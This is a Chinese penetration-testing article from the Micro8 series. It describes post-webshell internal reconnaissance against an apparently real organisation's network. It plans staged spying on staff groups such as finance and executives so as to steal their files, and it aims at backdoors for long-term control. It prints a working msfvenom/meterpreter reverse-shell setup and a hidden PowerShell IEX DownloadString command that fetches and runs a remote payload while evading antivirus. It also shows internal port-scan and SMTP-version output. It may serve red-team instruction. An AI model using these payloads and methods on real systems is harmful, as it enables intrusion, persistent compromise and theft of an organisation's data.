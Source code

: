 ```yaml
---
title: 52、渗透的本质是信息搜集
date: 2019-09-21 19:05:32
comments: true
categories: 
 - Micro8系列
---
```




>   目标资产信息搜集的程度，决定渗透过程的复杂程度。

>   目标主机信息搜集的深度，决定后渗透权限持续把控。

>   渗透的本质是信息搜集，而信息搜集整理为后续的情报跟进提供了强大的保证。

>   ----Micropoor

文章将连载，从几方面论证，**渗透的本质是信息搜集**。

一次完整的网络渗透，不仅仅是与目标管理人员的权限争夺，一次完整的网络渗透，它分为两大块，**技术业务**与**信息分析业务**。

而**技术业务要辅助并且要为信息分析业务提供强大的支撑与保证**。同时**信息分析业务要为技术业务提供关键的目标信息分析逻辑关系与渗透方向**。

案例如下：(非root/administrator下主动信息搜集)（有马赛克）

在得到一个webshell时，非root/administrator情况下对目标信息搜集至关重要，它会影响后期的渗透是否顺利，以及渗透方向。

目标主机分配了2个内网IP，分别为 10.0.0.X 与 192.168.100.X  
![](../do/media/8662257637ef2af4586f753a113dae25.jpg)

得知部分服务软件，以及杀毒软件 NOD32，一般内网中为杀毒为集体一致。

![](../do/media/648cf924f838838a640e5d845c6b0a26.jpg)

搜集补丁更新频率，以及系统状况  
![](../do/media/bf97b8416a0bb48ff30263a02da4c80b.jpg)

搜集安装软件以及版本，路径等。  

![](../do/media/300fe596787c9c2cbebd471591629f6b.jpg)  

![](../do/media/caae57861800df2ea13d2677b2ac8a1c.jpg)

域中用户如下。目前权限为 iis apppool\xxxx  

![](../do/media/71d9d6527589b430f48a7ca0a1efdce2.jpg)

正如上面所说，技术业务需要辅助分析业务。在域组中，其中有几个组需要特别关注，在一般的大型内网渗透中，需要关注大致几个组

**（1）IT组/研发组** 他们掌握在大量的内网密码，数据库密码等。  
**（2）秘书组** 他们掌握着大量的目标机构的内部传达文件，为信息分析业务提供信息，在反馈给技术业务来确定渗透方向  
**（3）domain admins组** root/administrator  
**（4）财务组**  他们掌握着大量的资金往来与目标企业的规划发展，并且可以通过资金，来判断出目标组织的整体架构  
**（5）CXX组** ceo cto coo等，不同的目标组织名字不同，如部长，厂长，经理等。  

![](../do/media/fcb0d45dbf09c50adbf473f85fb468c0.jpg)

以研发中心为例：研发中心共计4人。

**并且开始规划信息刺探等级：**

**等级1：**确定某部门具体人员数量 如研发中心4人  
**等级2：**确定该部门的英文用户名的具体信息，如姓名，联系方式，邮箱，职务等。以便确定下一步攻击方向  
**等级3：**分别刺探白天/夜间  内网中所存活机器并且对应IP地址  
**等级4：** 对应人员的工作机内网IP，以及工作时间  
**等级5：** 根据信息业务反馈，制定目标安全时间，以便拖拽指定人员文件，或登录目标机器  
**等级6：** 制定目标机器后渗透与持续渗透的方式以及后门

### 刺探等级1
![](../do/media/cc9a229d319f91d109bd7a84874fa341.jpg)

### 刺探等级2
![](../do/media/5305a8890be45902aacb107373c3a046.jpg)

![](../do/media/35fed4bbfade4243fb017db7c199822f.jpg)

在 net user /domain 后得到域中用户，但需要在**非root/administrator**权限下得到更多的信息来给信息分析业务提供数据，并确定攻击方向。

在案例中针对 nod32，采用 powershell payload

```code
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=xxx.xxx.xxx.xxx
LPORT=xx -f psh-reflection > xx.ps1
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set lhost xxx.xxx.xxx.xxx lhost => xxx.xxx.xxx.xxx
msf exploit(handler) > set lport xxx lport => xxx
msf > run

powershell -windowstyle hidden -exec bypass -c "IEX (New-ObjectNet.WebClient).DownloadString('http://xxx.xxx.xxx.xxx/xxx.ps1');"
```
注意区分目标及系统是32位还是64位。  

![](../do/media/65937ec4401b9b85a2a7280e6e8b1e14.jpg)  

![](../do/media/98463d3aa553b77e77a057eae6a3f57c.jpg)  

![](../do/media/6ef6fb36515c9ab57e0e38a24e2fc809.jpg)  

![](../do/media/2b7fd17d2d1c8c1ffd13134ce502c1b5.jpg)  

![](../do/media/627f7d0b2cf780725115a7eaa1dfb01b.jpg)

接下来将会用 IIS APPPOOL\\XXXX 的权限来搜集更多有趣的信息  

![](../do/media/50409d7054b3842df85370c03b4c88f8.jpg)

某数据库配置 for mssql  

![](../do/media/474c1c2549316bbf317fa0ee1be8c461.jpg)  

![](../do/media/7f942b8a47046f622a76c9fcfa17131e.jpg)

白天测试段10.0.0.x段在线主机 for windows （部分）  

![](../do/media/c1dc05330e082caae0c6895ac1c1abcb.jpg)

### 10.0.0.x 段信息刺探：
IP 1-50 open 3389 （部分）  

![](../do/media/04045975dcc3d3b9aacfe9ed44cc8a45.jpg)  

```code
[+] 10.0.0.2: - 10.0.0.2:3389 - TCP OPEN
[+] 10.0.0.3: - 10.0.0.3:3389 - TCP OPEN
[+] 10.0.0.5: - 10.0.0.5:3389 - TCP OPEN
[+] 10.0.0.7: - 10.0.0.7:3389 - TCP OPEN
[+] 10.0.0.9: - 10.0.0.9:3389 - TCP OPEN
[+] 10.0.0.12: - 10.0.0.12:3389 - TCP OPEN
[+] 10.0.0.13: - 10.0.0.13:3389 - TCP OPEN
[+] 10.0.0.14: - 10.0.0.14:3389 - TCP OPEN
[+] 10.0.0.26: - 10.0.0.26:3389 - TCP OPEN
[+] 10.0.0.28: - 10.0.0.28:3389 - TCP OPEN
[+] 10.0.0.32: - 10.0.0.32:3389 - TCP OPEN
```
IP 1-255 open 22,25 （部分）  

![](../do/media/d75d26fbe0f7bf91da3fe7db65c58c76.jpg)  

```code
[+] 10.0.0.3: - 10.0.0.3:25 - TCP OPEN
[+] 10.0.0.5: - 10.0.0.5:25 - TCP OPEN
[+] 10.0.0.14: - 10.0.0.14:25 - TCP OPEN
[+] 10.0.0.15: - 10.0.0.15:22 - TCP OPEN
[+] 10.0.0.16: - 10.0.0.16:22 - TCP OPEN
[+] 10.0.0.17: - 10.0.0.17:22 - TCP OPEN
[+] 10.0.0.20: - 10.0.0.20:22 - TCP OPEN
[+] 10.0.0.21: - 10.0.0.21:22 - TCP OPEN
[+] 10.0.0.31: - 10.0.0.31:22 - TCP OPEN
[+] 10.0.0.38: - 10.0.0.38:22 - TCP OPEN
[+] 10.0.0.40: - 10.0.0.40:22 - TCP OPEN
[+] 10.0.0.99: - 10.0.0.99:22 - TCP OPEN
[+] 10.0.0.251: - 10.0.0.251:22 - TCP OPEN
[+] 10.0.0.254: - 10.0.0.254:22 - TCP OPEN
```
IP 1-255 smtp for version （部分）  

![](../do/media/9c33b4d83946e383cce75062f50138cd.jpg)  


```code
msf auxiliary(smtp_version) \> run

[+] 10.0.0.3:25 - 10.0.0.3:25 SMTP 220 xxxxxxxxxxxxxxxxx MAIL Service,Version: 7.5.7601.17514 ready at Wed, 14 Feb 2018 18:28:44 +0800 \\x0d\\x0a
[+] 10.0.0.5:25 - 10.0.0.5:25 SMTP 220 xxxxxxxxxxxxxxxxx Microsoft ESMTP MAIL Service, Version: 7.5.7601.17514 ready at Wed, 14 Feb 2018 18:29:05 +0800 \\x0d\\x0a
[+] 10.0.0.14:25 - 10.0.0.14:25 SMTP 220 xxxxxxxxxxxxxxxxxt ESMTP MAIL Service, Version: 7.0.6002.18264 ready at Wed, 14 Feb 2018 18:30:32 +0800 \\x0d\\x0a
```  

![](../do/media/aa86c13c60cfabb912e9f7bdf7517ccf.jpg)

在iis apppool\xxxx的权限下，目前得知该目标内网分配段，安装软件，杀毒，端口，服务，补丁更新频率，管理员上线操作时间段，数据库配置信息，域用户详细信息（英文user对应的职务，姓名等），以上数据等待信息分析业务，来确定攻击方向。如财务组，如cxx组等。并且完成了**刺探等级1-4**

而在以上的信息搜集过程中，提权不在是我考虑的问题了，可以Filezilla server提权，mssqsl数据库提权，win03提权，win2000提权，win08提权，iis.x提权，内网映射提权等。而现在需要做的是如何反制被发现来制定目标业务后门，以便长期控制。

下一季的连载，将会从三方面来讲述大型内网的信息刺探，既有0day的admin权限下刺探，无提权下的guest/users权限下刺探。数据库下的权限刺探。域权限延伸到办公PC机的信息刺探。以及只有路由权限下的信息刺探。原来在渗透过程中，提权是次要的，信息刺探才是渗透的本质。  

>   Micropoor

